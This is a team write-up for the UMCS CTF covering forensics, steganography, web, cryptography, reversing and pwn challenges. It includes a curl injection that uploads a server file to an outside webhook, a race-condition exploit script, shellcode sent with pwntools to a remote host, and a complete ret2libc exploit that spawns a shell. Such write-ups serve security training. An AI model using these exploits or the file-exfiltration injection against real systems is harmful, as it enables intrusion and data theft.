

# UMCS CTF - T3PUNG_P3L1T4 Writeup

**Writeup made by:** itikjoget, R4N4WB0I, onyo, c1nn4m0n




> *We barely passed!*

---

## Table of Contents

- [FORENSIC](#forensic)
  - [1. Hidden in Plain Graphic](#1-hidden-in-plain-graphic)
- [STEGANOGRAPHY](#steganography)
  - [2. Broken](#2-broken)
  - [3. Hotline Miami](#3-hotline-miami)
- [WEB](#web)
  - [4. Healthcheck](#4-healthcheck)
  - [5. Straightforward](#5-straightforward)
- [CRYPTOGRAPHY](#cryptography)
  - [6. Gist of Samuel](#6-gist-of-samuel)
- [REVERSE ENGINEERING](#reverse-engineering)
  - [7. htpp-server](#7-htpp-server)
- [PWN](#pwn)
  - [8. babysc](#8-babysc)
  - [9. liveleak](#9-liveleak)

---

## FORENSIC — SOLVED (1/1)

### 1. Hidden in Plain Graphic


We were given a challenge to find Agent Ali's activity in a packet.


As usual, we open the pcap file using Wireshark to start analyzing the packet and there are tons of malformed packets.


We need to find the packet with a message - we need to find a packet with a large size. We made a custom sorting of size since Wireshark did not supply that.


At the top, we can find a packet that is obviously much larger than the other files. Not only that, it also contains "PNG" so we immediately extracted it.


After extracting the image, we tried exiftool, steghide, and binwalk - but in the end `zsteg` gave us the flag. 👏


**FLAG:** `umcs{h1dd3n_1n_png_st3g}`

---

## STEGANOGRAPHY — SOLVED (2/2)

### 2. Broken


> 
> 
> *Not everything that has broken can be fixed..but this time we nailed it! (no pun intended)*


We tried to read the file content and it appears to be that this file was created or streamed via VLC, so we tried to play it using VLC. Unfortunately, there were errors that made it unplayable.


We found a video repair tool online called **Stellar**, but the smart fix was not working and it required advanced repair. We downloaded an MP4 sample from [https://file-examples.com](https://file-examples.com/index.php/sample-video-files/sample-mp4-files/) to repair the video.


The repaired video played the flag so fast that we had to record it using OBS Studio and pause it at the right time.

**FLAG:** `umcs{h1dd3n_1n_fr4m3}`

---

### 3. Hotline Miami


> *Interesting challenge with a historical incident in Miami*


We read the `readme.txt` and a secret message appeared. It looked like the flag would be `umcs{Subject_Be_Verb_Year}` so we analyzed it more with the clue.


As usual, we inspected `rooster.jpg` using the `strings` command and found a weird string: **"RICHARD"** - maybe a clue for the next part.


Then we analyzed the audio using **Sonic Visualizer**. We tried to listen to the whole track but there was no clue, so we asked a pro. Spectrogram it is!


After a few minutes of searching, we found **"Watching"** (a verb) and **"1989"** (a year). We already have `Subject_Be_Watching_1989`. The subject could be Richard, so we concluded the flag is `Richard_Be_Watching_1989`.


**FLAG:** `umcs{Richard_Be_Watching_1989}`

---

## WEB - SOLVED (2/3)

### 4. Healthcheck


> *Healthcheck? They should've performed it on us instead of the website after facing all these hard challenges..anyway lets hop into it*


We were greeted with a health check. We could input a URL and it would return the status (200, 404, 403, etc.). It was safe to say we had to perform **SSRF** to retrieve the `hopes_and_dreams` file.


So we used Webhook to hook the file inside the server. We used `curl` injection with `-F` to simulate form uploads, using `flag=@<path to flag>`.

**Injection used:**

```
-F 'flag=@/var/www/html/hopes_and_dreams' [webhook_link]
```


It returned status 100 and 200, and the file was retrieved!


**FLAG:** `umcs{n1c3_j0b_ste4l1ng_myh0p3_4nd_dr3ams}`

---

### 5. Straightforward


> *Looks like we have to "hack" a game center*

We started by inspecting the source code of account creation. Some important highlights:

```python
app = Flask(__name__)
app.secret_key = os.urandom(16)
DATABASE = 'db.sqlite3'
```

Each user has their own secret key accessible via cookies.

**Registration route:**

```python
@app.route('/register', methods=['GET', 'POST'])
def register():
    if request.method == 'POST':
        username = request.form.get('username')
        if not username:
            flash("Username required!", "danger")
            return redirect(url_for('register'))
        db = get_db()
        try:
            db.execute('INSERT INTO users (username, balance) VALUES (?, ?)',
                (username, 1000))
            db.commit()
        except sqlite3.IntegrityError:
            flash("User exists!", "danger")
            return redirect(url_for('register'))
        session['username'] = username
        return redirect(url_for('dashboard', username=username))
    return render_template('register.html')
```


Each new user is provided with **1000** and may collect a daily bonus ($1000) totalling 2000  - but we need  3000 to redeem the flag.

**Claim route:**

```python
@app.route('/claim', methods=['POST'])
def claim():
    if 'username' not in session:
        return redirect(url_for('register'))
    username = session['username']
    db = get_db()
    cur = db.execute('SELECT claimed FROM redemptions WHERE username=?', (username,))
    row = cur.fetchone()
    if row and row['claimed']:
        flash("You have already claimed your daily bonus!", "danger")
        return redirect(url_for('dashboard'))
    db.execute('INSERT OR REPLACE INTO redemptions (username, claimed) VALUES (?, 1)', (username,))
    db.execute('UPDATE users SET balance = balance + 1000 WHERE username=?', (username,))
    db.commit()
    flash("Daily bonus collected!", "success")
    return redirect(url_for('dashboard'))
```

There is a **TOCTOU race condition** between the SELECT check and the INSERT update. We can sneak in another request before it completes updating.

**Exploit script:**

```python
import requests
import threading
import random
import string

BASE_URL = "http://localhost:7859"  # Change this to the actual host/port

# Generate random username
USERNAME = "user_" + ''.join(random.choices(string.ascii_lowercase + string.digits, k=6))

# Use a session to persist cookies
session = requests.Session()

def register():
    print(f"[+] Registering as {USERNAME}")
    r = session.post(f"{BASE_URL}/register", data={"username": USERNAME}, allow_redirects=True)
    if "dashboard" in r.text or r.status_code == 200:
        print("[+] Registered and logged in successfully.")
        return True
    print("[-] Failed to register.")
    return False

def claim_bonus():
    resp = session.post(f"{BASE_URL}/claim")
    if "Daily bonus collected" in resp.text:
        print("[*] Bonus claimed!")
    else:
        print("[!] Claim failed or already claimed.")

def get_balance():
    resp = session.get(f"{BASE_URL}/dashboard?username={USERNAME}")
    return resp.text

if __name__ == "__main__":
    if not register():
        exit(1)
    print("[*] Launching race condition threads...")
    threads = []
    for _ in range(20):  # Launch 20 parallel claim attempts
        t = threading.Thread(target=claim_bonus)
        t.start()
        threads.append(t)
    for t in threads:
        t.join()
    print("[*] Final balance page:")
    print(get_balance())
    print("\n[+] Session cookies:")
    for cookie in session.cookies:
        print(f"{cookie.name} = {cookie.value}")
```


The script creates a user, extracts the session cookie, and performs race condition exploitation. Simply login using the auto-created username and adjust the session cookie. Now logged in with $3000 - click buy flag!

**FLAG:** `UMCS{th3_s0lut10n_1s_pr3tty_str41ghtf0rw4rd_too!}`

---

## CRYPTOGRAPHY — SOLVED (1/1)

### 6. Gist of Samuel


> *If you have a friend named Samuel, better hide him because we almost crashed out answering this.*


Opening the file, we could see a bunch of vehicle emojis. After a few minutes of research we discovered it was actually **Morse code**:

| Emoji          | Meaning          |
| -------------- | ---------------- |
| 🚂             | dot (tap)        |
| 🚋             | dash (hold)      |
| 🚆             | end of character |
| 🚂🚂🚂🚂🚂🚂🚂 | end of word      |


After manually decrypting it, we got:

> `here is your prize e012d0a1fffac42d6aae00c54078ad3e Samuel really likes train, and his favorite number is 8`

The challenge is named "Samuel" because the morse code creator is **Samuel Morse**! "Gist of Samuel" → GitHub Gist.

The URL:

```
https://gist.github.com/umcybersec/e012d0a1fffac42d6aae00c54078ad3e
```


From the gist, we received ASCII art encrypted with **Rail Fence Cipher (key = 8)**. Decoding it revealed a campsite name.

**FLAG:** `umcs{willow_tree_campsite}`

---

## REVERSE ENGINEERING - SOLVED (1/1)

### 7. htpp-server


> *The one and only rev challenge!*

We started with analyzing strings. Interesting findings:

```
GET /goodshit/umcs_server HTTP/13.37
/flag
HTTP/1.1 404 Not Found
Content-Type: text/plain
Could not open the /flag file.
HTTP/1.1 200 OK
Content-Type: text/plain
HTTP/1.1 404 Not Found
Content-Type: text/plain
Not here buddy
```

There are "hidden" paths and a custom HTTP version: **HTTP/13.37**. We tried various curl requests - none worked.

We realized GET may not be supported and the custom protocol required `nc` (netcat) instead.


Using `nc` directly with the custom protocol returned the flag!

**FLAG:** `umcs{http_server_a058712ff1da79c9bbf211907c65a5cd}`

---

## PWN - SOLVED (2/2)

### 8. babysc


> *An interesting pwn challenge*

First step: `checksec`. Then we used **dogbolt** to decompile `babysc` and found:

```c
shellcode = (code *)mmap((void *)0x26e45000, 0x1000, 7, 0x22, 0, 0);
```

Memory is fixed at `0x26e45000` with permission `7` (RWX) — we can inject shellcode!

However, the program detects "bad bytes" and terminates if found:

```c
while (true) {
    if (shellcode_size <= (ulong)(long)(int)local_14) {
        puts("Executing shellcode!\n");
        (*shellcode)();
        return;
    }
    pcVar1 = shellcode + (int)local_14;
    if (((*(short *)pcVar1 == -0x7f33) || (*(short *)pcVar1 == 0x340f)) ||
        (*(short *)pcVar1 == 0x50f)) break;
    local_14 = local_14 + 1;
}
printf("Bad Byte at %d!\n", (ulong)local_14);
exit(1);
```

These bad bytes are commonly found in shellcode. We crafted custom shellcode to bypass the filter:

```python
from pwn import *

binary_path = './babysc'
context.binary = binary_path
context.log_level = 'info'
elf = ELF(binary_path, checksec=False)

host = '34.133.69.112'
port = 10001
conn = remote(host, port)

payload = (
    b"\xbf\x55\xa5\xf8\xfc\xdb\xcb\xd9\x74\x24\xf4\x5e"
    b"\x33\xc9\xb1\x0c\x83\xc6\x04\x31\x7e\x10\x03\x7e"
    b"\x10\xb7\x50\xb0\x44\x18\xf9\x28\xdb\x49\x8e\xc2"
    b"\x23\x0c\x20\x47\x7b\x7c\xa7\x0f\xae\xe3\x73\x8e"
    b"\xe2\x0b\x71\x2e\x03\xcb\xa9\x4c\x6a\xa5\x9a\xf2"
    b"\x0d\x4a\x8d\xf2\x9b\xfb\x19\xad\x49\x38\xfa\x5e"
    b"\x8b"
)

conn.recvuntil(b"x1000")
conn.sendline(payload)
print(conn.recvline().decode(errors='ignore'))
conn.interactive()
```

Input `cat /flag` and get the flag.

**FLAG:** `umcs{shellcoding_78b18b51641a3d8ea260e91d7d05295a}`

---

### 9. liveleak


> *A bof challenge*

As usual: `checksec` and decompile.

```c
void vuln(void)
{
    char local_48[64];
    puts("Enter your input: ");
    fgets(local_48, 0x80, stdin);
    return;
}
```

Buffer size is only **64 bytes** but `fgets` accepts up to **128 bytes** (`0x80`) — classic **buffer overflow**!

**Finding the offset** using cyclic pattern (128 bytes):

```
b'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaab'
```

```python
from pwn import *
crash_value = 0x6174616161736161
crash_bytes = p64(crash_value)
offset = cyclic_find(crash_bytes)
print(f"Offset is {offset} bytes")
# Output: Offset is 72 bytes
```

Offset = **72 bytes**. NX is enabled, so standard shellcode injection won't work. We use **ret2libc** with the supplied `libc.so.6`.

**Stage 1: Leak puts() address from GOT**

```python
payload = flat(
    b'A' * offset,
    pop_rdi,
    elf.got['puts'],
    elf.plt['puts'],
    elf.symbols['main']
)
```

**Stage 2: Compute libc base and call system("/bin/sh")**

```python
libc_base = leaked_puts - libc.symbols['puts']
system_addr = libc_base + libc.symbols['system']
binsh_addr = libc_base + next(libc.search(b'/bin/sh'))

payload2 = flat(
    b'A' * offset,
    ret,         # stack alignment
    pop_rdi,
    binsh_addr,
    system_addr
)
```

**Full exploit script:**

```python
#!/usr/bin/env python3
from pwn import *

context.binary = elf = ELF('./chall')
libc = ELF('./libc.so.6')
ld_path = './ld-2.35.so'
context.log_level = 'debug'

REMOTE = True
if REMOTE:
    p = remote('34.133.69.112', 10007)
else:
    p = process([ld_path, './chall'], env={'LD_PRELOAD': './libc.so.6'})

offset = 72
rop = ROP(elf)
pop_rdi = rop.find_gadget(['pop rdi', 'ret'])[0]
ret = rop.find_gadget(['ret'])[0]  # Stack alignment

payload = flat(
    b'A' * offset,
    pop_rdi,
    elf.got['puts'],
    elf.plt['puts'],
    elf.symbols['main']
)

log.info("Sending leak payload...")
p.recvuntil(b"Enter your input: ", timeout=5)
p.sendline(payload)
p.recvline()
leak = p.recvline().strip()
log.info(f"Received raw leak: {leak}")

if len(leak) >= 6:
    leaked_puts = u64(leak.ljust(8, b'\x00'))
    log.success(f"Leaked puts address: {hex(leaked_puts)}")
    libc_base = leaked_puts - libc.symbols['puts']
    log.success(f"Calculated libc base: {hex(libc_base)}")

    system_addr = libc_base + libc.symbols['system']
    binsh_addr = libc_base + next(libc.search(b'/bin/sh'))
    log.success(f"system() address: {hex(system_addr)}")
    log.success(f"'/bin/sh' address: {hex(binsh_addr)}")

    payload2 = flat(
        b'A' * offset,
        ret,
        pop_rdi,
        binsh_addr,
        system_addr
    )

    log.info("Sending ret2libc payload...")
    p.recvuntil(b"Enter your input: ", timeout=5)
    p.sendline(payload2)
    p.interactive()
```

Successfully pwned!

**FLAG:** `umcs{GOT_PLT_8f925fb19309045dac4db4572435441d}`

---

*End of writeup — T3PUNG_P3L1T4 | UMCS CTF*
